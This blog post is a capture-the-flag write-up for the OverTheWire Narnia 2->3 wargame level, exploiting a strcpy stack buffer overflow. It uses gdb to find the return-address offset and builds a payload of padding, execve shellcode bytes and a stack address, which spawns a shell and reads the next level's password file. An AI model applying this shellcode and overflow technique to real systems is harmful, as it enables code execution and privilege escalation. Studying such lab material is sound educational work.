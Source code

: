 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 2 -> 3"
subtitle:   "Write-Up"
date:       2017-02-03 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Write-Ups
---
```


<h1>Introduction</h1>

<p>What about another challenge in reverse engineering? Anywhere, anytime! </p>

<h1>Challenge</h1>

<p>As always, let's start from viewing the source code.</p>

{% highlight c %}
int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}

{% endhighlight %}

<p>Okay, now let's run it. </p>

{% highlight text%}
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ ./narnia2 ARGUMENT
ARGUMENTnarnia2@melinda:/narnia$
{% endhighlight %}

<p>As in the source code, we see that if argument is not passed, then usage instructions are printed, otherwise value of argument is printed on the next line. In addition, source code gives us information that char buf is 128 bytes in size. Let's try to trigger the segmentation fault. </p>

{% highlight text %}
ARGUMENTnarnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 140")
Illegal instruction
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 141")
Segmentation fault
{% endhighlight %}

<p>Hmm, that's interesting. After trying different amounts of A letters, I've noticed that by writing 140 of them, we will get <b>Illegal instruction</b> message, but 141 letters end up with our desired <b>Segmentation fault</b>. Maybe gdb will tell us something more? </p>

{% highlight text %}
narnia2@melinda:/narnia$ gdb ./narnia2
(gdb) break *main
Breakpoint 1 at 0x804845d
{% endhighlight %}

<p>Firstly let's investigate the illegal instruction option. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 140")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 140")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
(gdb) c
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.

{% endhighlight %}

<p>Unfortunately after doing some research I've found out that SIGILL won't help us much. What we have to try is to overwrite the <b>instruction pointer. </b></p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 144")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 144")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
{% endhighlight %}

<p>Luckily, adding only 3 more A's overwrote the pointer. But here comes another problem, what is its address? </p>
<p>We can try to find out by writing around B's at the end. Let's see. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 138 + 'B' * 6")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 138 + 'B' * 6")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0xb7000000	0x9449f175
0xffffd800:	0xb7857a44	0x6da4653e	0x69a15cf3	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8b0:	0x41414141	0x42424242	0x58004242	0x535f4744
{% endhighlight %}

<p>Great! EIP address is 0xffffd8b3. Now we have to find a way to use shellcode from previous challenge. But firstly, let's find its length. </p>

{% highlight text %}
narnia2@melinda:/narnia$ python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
{% endhighlight %}

<p>25 bytes. As our string have to be 144 bytes in length, I'll firstly write 112 bytes of A letters, then 25 bytes of our shellcode and then overwrite the EIP with memory address somewhere in the middle of A's. Let's try it out! </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")

(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0x4d000000	0x2bdc9c96
0xffffd800:	0xd596f713	0x775b1954	0x6969a442	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0xc0314141	0x2f2f6850
0xffffd8a0:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd8b0:	0x40c03180	0x424280cd	0x58004242	0x535f4744
0xffffd8c0:	0x49535345	0x495f4e4f	0x30323d44	0x33323431
0xffffd8d0:	0x45485300	0x2f3d4c4c	0x2f6e6962	0x68736162
0xffffd8e0:	0x52455400	0x74783d4d	0x2d6d7265	0x63363532
0xffffd8f0:	0x726f6c6f	0x48535300	0x494c435f	0x3d544e45
0xffffd900:	0x362e3938	0x36312e34	0x3732312e	0x30333320
0xffffd910:	0x32203434	0x53530032	0x54545f48	0x642f3d59
0xffffd920:	0x702f7665	0x342f7374	0x434c0033	0x4c4c415f

{% endhighlight %}

<p>Great, we can see that even with the shellcode B's overwrote the EIP. Now let's try it with the actuall address - somewhere in the middle of the A letters. Maybe <b>0xffffd863</b>?</p>

{% highlight text %}
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x63\xd8\xff\xff'")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
{% endhighlight %}

<p>And we've got the password to the next level!</p>

<h1>Conclusion</h1>
<p>The challenge was awesome, but really time consuming. It was worth every minute as I learned a lot from trying out these different ways to finish this level. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>

<p>~ Stay safe!</p>
